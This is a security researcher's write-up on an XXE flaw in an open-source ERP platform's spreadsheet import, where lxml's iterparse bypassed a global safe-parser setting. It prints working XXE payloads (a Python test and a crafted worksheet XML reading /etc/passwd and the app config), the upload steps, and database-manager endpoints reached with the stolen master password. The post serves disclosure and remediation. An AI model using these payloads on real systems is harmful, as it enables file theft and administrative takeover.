



# XXE via spreadsheet upload: from local file read to database-manager access

_How one streaming XML parser bypassed an application's global XXE defense—and why the difference between “file read,” “administrative access,” and “RCE” matters._

I was auditing XML parsing paths in a large open-source ERP platform when I found a defense that looked reassuring: at startup, the application registered a global lxml parser configured to block external entity resolution.

For the most common parsing path, it worked.

The problem was that the application did not have only one XML parsing path.

## One library, three different outcomes

I started by comparing three lxml interfaces inside a live application process:

```python
from io import BytesIO
from lxml import etree

payload = b'''<!DOCTYPE r [
  <!ENTITY x SYSTEM "file:///etc/hostname">
]>
<r><Name>&x;</Name></r>'''

etree.fromstring(payload)
etree.iterparse(BytesIO(payload))

parser = etree.XMLPullParser()
parser.feed(payload)
```

The results were different:

```text
fromstring()      → external entity not resolved
iterparse()       → local file contents returned
XMLPullParser()   → local file contents returned
```

The global safe parser protected the bare `fromstring()` call. In my tests, `iterparse()` and `XMLPullParser()` created their own parser state and did not inherit that protection.

That difference turned a configuration that looked global into a defense that covered only some call sites.

## Finding a reachable parser

A parser discrepancy is not automatically a vulnerability. I still needed a user-controlled file to reach one of the unsafe interfaces.

The path appeared in spreadsheet import handling.

The application patched xlrd 1.2.0 at startup so XLSX parsing used lxml's streaming parser:

```python
xlsx.ET = etree
xlsx.ET_has_iterparse = True
```

That patch replaced xlrd's normal XML backend with lxml and instructed it to use `iterparse()`.

The application's import module then passed uploaded spreadsheets to `xlrd.open_workbook()`. In my test environment, an ordinary authenticated backend user could reach this code through the **Import records** dialog available from list views.

The pieces now lined up:

1. The user uploads an XLSX file.
2. The import module opens it with xlrd.
3. The startup patch routes worksheet parsing through lxml `iterparse()`.
4. The parser resolves an external entity from worksheet XML.
5. The resolved value is returned as spreadsheet cell content in the import preview.

## Building the workbook

An XLSX file is a ZIP archive containing XML documents. I created a minimal workbook and placed the entity declaration in `xl/worksheets/sheet1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE worksheet [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <sheetData>
    <row r="1">
      <c r="A1" t="inlineStr">
        <is><t>&xxe;</t></is>
      </c>
    </row>
    <row r="2">
      <c r="A2" t="inlineStr">
        <is><t>test</t></is>
      </c>
    </row>
  </sheetData>
</worksheet>
```

The second row was not part of the exploit. It simply kept the import preview from failing when the workbook contained only one populated row.

## The application returned the file for me

I uploaded the workbook through the normal browser interface:

1. Open a list view.
2. Select the gear menu.
3. Choose **Import records**.
4. Upload the crafted XLSX.
5. Wait for the preview to load.

The import preview displayed the contents of `/etc/passwd` as the value of the first spreadsheet cell.



This was not blind XXE. I did not need a DNS callback, an external HTTP listener, or an error-based extraction technique. The application parsed the entity as cell content, included it in the JSON-RPC response, and rendered it in the browser.

The import preview itself became the exfiltration channel.

## From a harmless file to application secrets

Reading `/etc/passwd` established the primitive, but it did not demonstrate application impact. I changed the entity path to the ERP configuration file and uploaded the workbook again:

```xml
<!ENTITY xxe SYSTEM "file://<path-to-application-config>">
```

The preview returned the full configuration file, including values such as:

- `admin_passwd`
- `db_password`
- `db_host`
- `db_port`
- `db_user`



The screenshots used for publication must redact the secret values. The security impact is established by showing the field names and controlled portions of the returned file; publishing working credentials is unnecessary.

## What the recovered master password enabled

The application's `admin_passwd` protects database-management operations. With the value recovered from the configuration file, I verified access to the database manager and successfully created a new, fully initialized database. The response established a session authenticated as administrator of that new database.

The same management surface exposes high-impact operations, including database creation, backup, duplication, restoration, and deletion:

```text
POST /web/database/create
POST /web/database/restore
POST /web/database/backup
POST /web/database/duplicate
POST /web/database/drop
```

These routes significantly raise the impact beyond an arbitrary local file read. Depending on deployment configuration, the recovered secrets can expose databases, backups, or database administration functions.

## Where the demonstrated chain stops

The original research notes described the issue as an XXE-to-RCE chain through restoration of a crafted database backup containing executable module code.

The evidence described here does **not** demonstrate that final step. I verified:

- external entity resolution through spreadsheet import;
- arbitrary local file read in the parser's security context;
- direct return of file contents in the import preview;
- disclosure of the application configuration;
- recovery of the database-manager master password; and
- creation of a new database using the recovered credential.

I did not demonstrate execution of attacker-supplied Python code through a restored backup. For that reason, I am not presenting remote code execution as a confirmed outcome in this write-up.

The confirmed finding is still severe: an authenticated backend user can read server-local files and recover credentials that grant database-manager access. Any RCE claim should be added only if the final execution step is reproduced and captured end to end.

## Why the global defense failed

The failure sat at the boundary between three components:

- The application installed a safe global parser.
- The spreadsheet library was patched to use lxml.
- The patched library selected a streaming API that did not inherit the global parser configuration in my tests.

Each decision made sense in isolation. Together, they routed attacker-controlled worksheet XML through an entity-resolving parser.

The simplest analogy is a building where the front entrance checks everyone's badge, but deliveries use a service entrance with a separate guard configuration. The policy may be global on paper, yet one entrance still behaves differently.

## Testing across supported stacks

I reproduced the `iterparse()` behavior across the lxml, libxml2, and Python combinations available to me:

| Stack                        |  lxml | libxml2 | `iterparse()` resolved `file://` |
| ---------------------------- | ----: | ------: | :------------------------------: |
| Python 3.10                  | 4.8.0 |  2.9.12 |               Yes                |
| Python 3.11                  | 4.9.3 |  2.10.3 |               Yes                |
| Python 3.12                  | 5.2.1 |  2.12.6 |               Yes                |
| Python 3.13                  | 5.4.0 |  2.13.8 |               Yes                |
| Python 3.14                  | 6.0.2 |  2.14.6 |               Yes                |
| Vendor container, version 17 | 4.8.0 |  2.9.13 |               Yes                |
| Vendor container, version 18 | 5.2.1 |  2.9.14 |               Yes                |
| Vendor container, version 19 | 5.2.1 |  2.9.14 |               Yes                |

Every tested combination resolved the local entity through `iterparse()`. This matrix supports broad exposure across the tested application versions, but it does not justify claiming that every possible lxml/libxml2 build is vulnerable. Compiler options, downstream patches, and parser configuration can change behavior.

## Remediation

The durable fix is to secure the parser at the exact call site handling untrusted workbook XML rather than relying on a process-wide default.

Practical options include:

1. Wrap the streaming parser so external entities and network access are explicitly disabled for every `iterparse()` call.
2. Reject `DOCTYPE` declarations in uploaded workbook XML before parsing as defense in depth.
3. Replace the patched spreadsheet parsing path with an XML implementation configured and tested not to resolve external entities.
4. Add regression tests using XLSX files containing both `file://` and network-based external entities.
5. Treat secrets recovered from affected systems as compromised and rotate them after deploying the parser fix.

The important lesson is that a global parser setting is not enough unless every parsing interface is verified to inherit it.

## Disclosure outcome

I reported the issue through the vendor's Intigriti bug-bounty program. The submission was closed as a **duplicate** because another researcher had already reported the same underlying issue. No bounty was awarded for my submission.



The duplicate decision does not change the technical result, but it is part of the disclosure record and should remain visible in any public version of the research.

## Responsible-testing notes

All testing should be limited to researcher-controlled environments or systems explicitly covered by an authorized program. Configuration screenshots must be redacted so they do not expose reusable passwords, database credentials, internal hostnames, or account identifiers.

Before publishing, confirm that the program permits disclosure of duplicate submissions and technical details.

## Resources

- [lxml API: `set_default_parser`](https://lxml.de/api/lxml.etree-class.html#set_default_parser)
- [lxml API: `iterparse`](https://lxml.de/api/lxml.etree-class.html#iterparse)
- [OWASP XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
- [PortSwigger Web Security Academy: XML external entity injection](https://portswigger.net/web-security/xxe)
- [ISO/IEC 29500-1: Office Open XML](https://www.iso.org/standard/71691.html)
